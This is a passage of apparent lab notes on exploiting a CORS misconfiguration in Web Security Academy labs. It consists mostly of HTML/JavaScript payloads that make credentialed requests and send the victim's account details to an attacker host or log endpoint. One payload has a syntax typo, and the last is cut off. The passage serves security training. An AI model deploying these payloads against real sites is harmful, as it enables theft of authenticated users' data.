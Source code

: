 With these headers in the response, an attacker can host malicious code in their server that will submit a request to the vulnerable app and direct the authenticated response back to their server. Now, the attacker needs to trick the victim user into visiting their website while they are authenticated to the vulnerable application.

>[!info]
>Make sure to set the file extension to .html or no extension also work in Exploit Server labs.

Some payloads work, some don't:

```html
<html>
<script>
	var req - newXMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://VULNERABLE-APP.com/accountDetails',true)
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location = 'https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+this.responseText;
	};
</script>
</html>
```

```html
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://<REDACTED>.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

```html
<html>
    <body data-rsssl=1>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://X.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

```html
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://0ae3008d041a3bd88339b55f00550027.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
```